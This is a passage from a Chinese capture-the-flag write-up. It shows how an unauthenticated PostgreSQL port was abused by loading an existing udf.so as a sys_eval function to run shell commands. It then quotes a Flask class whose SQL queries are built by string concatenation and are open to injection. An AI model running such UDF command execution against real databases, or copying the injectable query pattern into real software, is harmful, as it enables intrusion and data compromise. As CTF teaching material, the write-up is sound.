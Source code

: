 5432开放了postgresql端口，尝试未授权果然成功连上了，翻了翻，因为权限设置问题，没办法列目录，只能读文件。但不知道文件名，所以尝试用udf执行命令。

研究了一下没找到9.6版本的udf，但在数据库当前目录下，有别人写的udf，成功执行命令，拿到flag
```
CREATE OR REPLACE FUNCTION sys_eval()  RETURNS text AS  './udf.so' LANGUAGE C STRICT;
select sys_eval('cat /flag_is_here');
```

## python is best language

这是一个flask的代码审计题目，分1&2两个漏洞，第一个漏洞还算是比较清楚，注入漏洞。让我们来看看代码。

others.py里的数据库操作完全没有任何过滤，而且直接将输入拼接进入sql语句，也就是说，如果数据没经过处理，就会产生注入

```
class Mysql_Operate():
    def __init__(self, Base, engine, dbsession):
        self.db_session = dbsession()
        self.Base = Base
        self.engine = engine

    def Add(self, tablename, values):
        sql = "insert into " + tablename + " "
        sql += "values ("
        sql += "".join(i + "," for i in values)[:-1]
        sql += ")"
        try:
            self.db_session.execute(sql)
            self.db_session.commit()
            return 1
        except:
            return 0

    def Del(self, tablename, where):
        sql = "delete from " + tablename + " "
        sql += "where " + \
            "".join(i + "=" + str(where[i]) + " and " for i in where)[:-4]
        try:
            self.db_session.execute(sql)
            self.db_session.commit()
            return 1
        except:
            return 0

    def Mod(self, tablemame, where, values):
        sql = "update " + tablemame + " "
        sql += "set " + \
            "".join(i + "=" + str(values[i]) + "," for i in values)[:-1] + " "
        sql += "where " + \
            "".join(i + "=" + str(where[i]) + " and " for i in where)[:-4]
        try:
            self.db_session.execute(sql)
            self.db_session.commit()
            return 1
        except:
            return 0

    def Sel(self, tablename, where={}, feildname=["*"], order="", where_symbols="=", l="and"):
        sql = "select "
        sql += "".join(i + "," for i in feildname)[:-1] + " "
        sql += "from " + tablename + " "
        if where != {}:
            sql += "where " + "".join(i + " " + where_symbols + " " +
                                      str(where[i]) + " " + l + " " for i in where)[:-4]
        if order != "":
```